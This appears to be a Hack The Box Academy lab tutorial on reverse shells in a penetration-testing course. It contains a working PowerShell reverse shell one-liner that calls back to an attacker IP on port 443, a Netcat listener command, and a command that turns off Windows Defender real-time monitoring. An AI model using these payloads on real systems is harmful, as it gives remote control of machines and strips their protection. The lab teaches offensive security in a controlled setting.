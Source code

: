 # Reverse Shells

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

**Reverse Shell Example**

![image](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected. The last section discussed how bind shells rely on incoming connections allowed through the firewall on the server-side. It will be much harder to pull this off in a real-world scenario. As seen in the image above, we are starting a listener for a reverse shell on our attack box and using some method (example: `Unrestricted File Upload`, `Command Injection`, etc..) to force the target to initiate a connection with our target box, effectively meaning our attack box becomes the server and the target becomes the client.

We don't always need to re-invent the wheel when it comes to payloads (commands & code) we intend to use when attempting to establish a reverse shell with a target. There are helpful tools that infosec veterans have put together to assist us. [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is one fantastic resource that contains a list of different commands, code, and even automated reverse shell generators we can use when practicing or on an actual engagement. We should be mindful that many admins are aware of public repositories and open-source resources that penetration testers commonly use. They can reference these repos as part of their core considerations on what to expect from an attack and tune their security controls accordingly. In some cases, we may need to customize our attacks a bit.

Let's work hands-on with this to understand these concepts better.

***

### Hands-on With A Simple Reverse Shell in Windows

With this walkthrough, we will be establishing a simple reverse shell using some PowerShell code on a Windows target. Let's start the target and begin.

We can start a Netcat listener on our attack box as the target spawns.

**Server (`attack box`)**

Reverse Shells

```shell-session
AIceBear@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

This time around with our listener, we are binding it to a [common port](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) (`443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port. Detailed firewall evasion is outside of the scope of this module, so we will only briefly touch on detection & evasion techniques throughout the module, as well as in the dedicated section at the end.

Once the Windows target has spawned, let's connect using RDP.

Netcat can be used to initiate the reverse shell on the Windows side, but we must be mindful of what applications are present on the system already. Netcat is not native to Windows systems, so it may be unreliable to count on using it as our tool on the Windows side. We will see in a later section that to use Netcat in Windows, we must transfer a Netcat binary over to a target, which can be tricky when we don't have file upload capabilities from the start. That said, it's ideal to use whatever tools are native (living off the land) to the target we are trying to gain access to.

`What applications and shell languages are hosted on the target?`

This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

**Client (target)**

Reverse Shells

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Note: If we are using Pwnbox, keep in mind that some browsers do not work as seamlessly when using the Clipboard feature to paste a command directly into the CLI of a target. In these cases, we may want to paste into Notepad on the target, then copy & paste from inside the target.

Please take a close look at the command and consider what we need to change for this to allow us to establish a reverse shell with our attack box. This PowerShell code can also be called `shell code` or our `payload`. Delivering this payload onto the Windows system was pretty straightforward, considering we have complete control of the target for demonstration purposes. As this module progresses, we will notice the difficulty increases in how we deliver the payload onto targets.

`What happened when we hit enter in command prompt?`

**Client (target)**

Reverse Shells

```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):

**Disable AV**

Reverse Shells

```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Once AV is disabled, attempt to execute the code again.

**Server (attack box)**

Reverse Shells

```shell-session
AIceBear@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Back on our attack box, we should notice that we successfully established a reverse shell. We can see this by the change in the prompt that starts with `PS` and our ability to interact with the OS and file system. Try running some standard Windows commands to practice a bit.

Now, let's test our knowledge with some challenge questions.

